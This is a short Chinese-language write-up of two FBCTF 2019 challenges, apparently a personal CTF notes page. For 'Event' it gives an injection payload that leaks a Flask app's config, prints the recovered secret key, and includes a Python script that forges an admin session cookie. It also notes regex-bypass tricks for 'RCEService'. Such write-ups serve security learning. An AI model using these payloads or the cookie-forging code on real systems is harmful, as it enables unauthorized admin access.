 # FBCTF 2019 

## RCEService

利用点：1. preg_match 换行绕过 2.prce 最大回溯限制

## Event

看cookie三段的，试了一下jwt发现含用户名字段，但是签名对不上
想办法伪造cookie

``event_important``存在注入回显点

```
__dict__
__class__.__init__.__globals__[app].config
```

拿到secretkey后伪造admin身份

```
fb+wwn!n1yo+9c(9s6!_3o#nqm&&_ej$tez)$_ik36n8d7o6mr#y
```

检验下正确性
```
python flask_session_cookie_manager2.py decode -s 'fb+wwn!n1yo+9c(9s6!_3o#nqm&&_ej$tez)$_ik36n8d7o6mr#y' -c Ilx1MWQyY2RtaW4i.XogtiQ.GS-obKTyVRDwhI_27cLwIgxGrsc
ᴬdmin
```

然后用脚本签名

```python
from flask import Flask
from flask.sessions import SecureCookieSessionInterface

app = Flask(__name__)
app.secret_key = b'fb+wwn!n1yo+9c(9s6!_3o#nqm&&_ej$tez)$_ik36n8d7o6mr#y'

session_serializer = SecureCookieSessionInterface().get_signing_serializer(app)

@app.route('/')
def index():
    print(session_serializer.dumps("admin"))

index()
```

注意使用python3